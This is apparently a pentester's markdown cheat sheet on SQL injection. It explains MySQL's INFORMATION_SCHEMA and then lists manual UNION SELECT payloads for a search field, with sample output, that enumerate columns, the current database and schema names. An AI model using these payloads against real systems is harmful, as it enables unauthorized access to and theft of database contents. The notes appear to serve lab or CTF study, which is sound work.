 * [`sqlmap`](#sqlmap)
* [INFORMATION_SCHEMA](#information_schema)
  * [INFORMATION_SCHEMA Tables](#information_schema-tables)
* [Manual Methods](#manual-methods)
  * [enumerate fields of search query](#enumerate-fields-of-search-query)
  * [show database](#show-database)

# `sqlmap`

# INFORMATION_SCHEMA
Refs:
* <https://www.cmi.ac.in/~madhavan/courses/databases10/mysql-5.0-reference-manual/information-schema.html#schemata-table>

INFORMATION_SCHEMA provides access to database metadata.

Metadata is data about the data, such as the name of a database or table, the data type of a column, or access privileges. INFORMATION_SCHEMA is the information database, the place that stores information about all the other databases that the MySQL server maintains. Inside INFORMATION_SCHEMA there are several read-only tables. They are actually views, not base tables, so there are no files associated with them.
## INFORMATION_SCHEMA Tables
* <https://dev.mysql.com/doc/refman/8.0/en/columns-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/schemata-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/st-units-of-measure-table.html>

# Manual Methods
## enumerate fields of search query
In burpsuite, go to repeater mode and keep on increasing the numbers till the fields of search query gets printed on the webpage
```
search=killer' UNION SELECT 1,2,3,4,5,6-- -
```
```
<h3>Search results </h3>
ID: 1<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## show database
```
search=killer' UNION SELECT database(),2,3,4,5,6-- -
```
```
<h3>Search results </h3> 
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
### using INFORMATION_SCHEMA
```
search=killer' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3> 
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: Staff<br/>Name: 2 3
<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email:
6<br/>
```
